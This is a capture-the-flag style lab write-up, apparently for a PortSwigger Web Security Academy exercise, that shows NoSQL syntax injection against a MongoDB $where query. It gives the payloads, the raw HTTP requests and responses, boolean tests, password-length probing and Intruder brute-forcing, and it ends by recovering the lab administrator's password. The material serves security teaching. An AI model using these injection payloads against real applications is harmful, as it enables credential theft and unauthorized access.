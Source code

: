 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d65cd1cd-7ed3-4cc3-b632-9aeb22fada48)

## Overview :

#### Exploiting syntax injection to extract data

In many NoSQL databases, some query operators or functions can run limited JavaScript code, such as MongoDB's `$where` operator and `mapReduce()` function. This means that, if a vulnerable application uses these operators or functions, the database may evaluate the JavaScript as part of the query. You may therefore be able to use JavaScript functions to extract data from the database. 

#### Exfiltrating data in MongoDB

Consider a vulnerable application that allows users to look up other registered usernames and displays their role. This triggers a request to the URL:
https://insecure-website.com/user/lookup?username=admin

This results in the following NoSQL query of the users collection:
```json
{"$where":"this.username == 'admin'"}
```

 As the query uses the $where operator, you can attempt to inject JavaScript functions into this query so that it returns sensitive data. For example, you could send the following payload:
```json
admin' && this.password[0] == 'a' || 'a'=='b
```

This returns the first character of the user's password string, enabling you to extract the password character by character.

You could also use the JavaScript match() function to extract information. For example, the following payload enables you to identify whether the password contains digits:
```json
admin' && this.password.match(/\d/) || 'a'=='b
```

## Solution :

Login as wiener. 

The following is the request & response sent .

**Request -**

```http
GET /user/lookup?user=wiener'+' HTTP/1.1
Host: 0a5a000604a69386817f4d0c00d50033.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a5a000604a69386817f4d0c00d50033.web-security-academy.net/my-account?id=wiener
Connection: close
Cookie: session=IxSUIRgjxiu4z9R8PqzaavxdpaT460zx
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
```

**Response -**

```http
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 05:10:55 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 81
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_che2
Via: HTTP/1.1 s_proxy_che2

{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```

The response contains the username , email & also the role of that user.

Inserting a `'` in the request ie (`user=wiener'`)causes an error in response .
```json
{
  "message": "There was an error getting user details"
}
```

The backend query might look something like this - `this.user == 'wiener'`

> This input likely results in an error because the application is attempting to execute a NoSQL query and the single quote (') is prematurely terminating the query, causing a syntax error - (`user='wiener''`).



But upon sending  `wiener'%2b'` (URL encoded form of `wiener'+'`) returns the details of wiener as usual.
```json
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 05:13:42 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 81
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_mum1
Via: HTTP/1.1 s_proxy_mum1

{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```
> The plus sign (+) is acting as a **concatenation** or a way to continue the query. So, the resulting query might look like user=wiener' + '', and the plus sign helps to combine the intended query with the rest of the query, making it syntactically correct and allowing the query to proceed.

By this we can understand that the injected nosql query is being evaluated at the backend.

### Injecting boolean conditions -

**False condition:**

Inject `?user=wiener' && '1'=='2` , this triggers the following error in response.
```http
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 05:53:40 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 38
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_mum1
Via: HTTP/1.1 s_proxy_mum1

{
  "message": "Could not find user"
}
```

**True condition:**

Inject `?user=wiener' && '1'=='1` , this results ina successful response .
```http
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 05:57:20 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 81
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_che2
Via: HTTP/1.1 s_proxy_che2

{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```

### Finding the length of password :

To find the length of the password , we can use the following query
```sql
?user=administrator' && this.password.length < 30 || 'a'=='b
```

> We can stop at *<30* but since the query has a *'* at the end, we provide the *OR* query ie(** || 'a'=='a**).
> Note that we don't end the equal statement with a `'` because there is a trailing `'` at the end of the query getting added automatically at the end.

So the request looks like ,

```http
GET /user/lookup?user=administrator'%20%26%26%20this.password.length%20%3c%2030%20%7c%7c%20'a'%3d%3d'b HTTP/1.1
Host: 0a900010049b475283fbcdf900820099.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a900010049b475283fbcdf900820099.web-security-academy.net/my-account?id=wiener
Connection: close
Cookie: session=oWJad6obyaXSGiOE2hIcpAZ3ZXwcrhGS
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
```

The response shows the email of admin. It means the query is executed successfully & confirming that **the password length is less than 30.**
```http
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 06:02:34 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 96
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_che2
Via: HTTP/1.1 s_proxy_che2

{
  "username": "administrator",
  "email": "admin@normal-user.net",
  "role": "administrator"
}
```

When we provide `this.password.length < 8`, the query fails & we get a failed response (*"message": "Could not find user"*).

So **the length of admin's password is 8**.

### Finding admin's password -

Now we ned to bruteforce each position from **0-7** by bruteforcing it with **a-z** to find the password.

Modify the nosql query payload as follows.

```nosql
user=administrator' && this.password[0]=='a
```

Send the request to Intruder tab, Add the `this.password[**$0$**]` as payload 1 and `this.password[$0$]='**$a$**` as paylaod 2.

Payload 1 - Numbers from 1-10
Payload 2 - Characters from a-z

Click on start attack.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/3f359128-701e-4712-a572-63034bbb6da1)

Now we have the admin's password - `oiwpuaam`

Login as admin to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1b7dee7d-f2c9-4e1b-98d8-ca8cff9e85d5)
